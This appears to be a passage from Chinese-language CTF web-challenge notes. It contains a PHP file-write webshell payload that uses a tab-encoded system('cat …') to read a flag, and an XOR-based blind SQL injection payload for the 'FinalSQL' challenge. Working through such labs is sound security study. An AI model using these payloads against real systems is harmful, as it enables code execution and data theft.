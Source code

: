 ```php
        $data = $_GET["data"] ?? "";
        waf($data);
        file_put_contents("$dir" . "index.php", $data);
}
?>
```

```php
payload
/?action=upload&data=<?=system("cat%09/flllllll1112222222lag")?>
然后访问
/sandbox/c47b21fcf8f0bc8b3920541abd8024fd/index.php
即可
```



















## SQL

### [极客大挑战 2019]FinalSQL(异或sql)



该届极客大挑战有几个SQL，其余几题记录再来one note上



![image-20220515200428408](D:\Typora\note\CTF\web\challenge.assets\image-20220515200428408.png)

首先不管神秘代码

和以往一样 注用户名和密码

发现......几乎所有sql语句都被过滤了

没办法，看神秘代码，点进去发现有id

fuzz发现空格被过滤 || 被过滤，试了一下id=1(or)1=1; 注入不了

只能考虑 ^ 符号

1^1=0

1^0=1

所以即可构建payload

```sql
id=1^(ascii(substr(database(),%d,1))>0)
```
